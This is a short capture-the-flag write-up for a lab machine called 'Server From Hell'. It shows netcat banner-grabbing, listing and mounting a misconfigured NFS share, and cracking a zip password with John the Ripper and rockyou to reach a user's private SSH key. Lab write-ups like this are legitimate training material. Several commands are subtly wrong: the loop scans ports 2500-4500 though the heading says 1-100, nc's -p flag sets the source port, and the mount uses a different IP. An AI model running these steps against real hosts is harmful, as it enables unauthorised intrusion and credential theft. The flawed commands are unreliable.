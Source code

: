 # SERVER FROM HELL WRITEUP
#### Author: DeadPackets

[Task 1] Flag.txt | "Start at port 1337 and enumerate your way."
```
First connect to port 1337 with nc,
output:

Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says hes hiding on the first 100 ports
Try printing the banners from the ports
```

### Write a simple script to connect from ports 1 - 100:
```bash
#!/bin/bash
for port in {2500..4500}
do
    nc 10.10.10.10 -p $port
done
```
### Output of port 12345
```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```
### NFS runs on port 2049
```
command:
showmount -e 10.10.10.10

output:
Export list for 10.10.10.10:
/home/nfs *
```
### Then just simply mount it
```
sudo mount -t nfs 10.10.0.10:/home/nfs /var/backups
```
### There is a file named backup.zip
#### But its password protected
```
zip2john backup.zip > hash
john hash -w ~/wordlists/rockyou.txt
```
### Once you've uncompressed the zip, we can see that it's hades's home directory
#### Output:
```
authorized_keys  flag.txt  hint.txt  id_rsa  id_rsa.pub

```
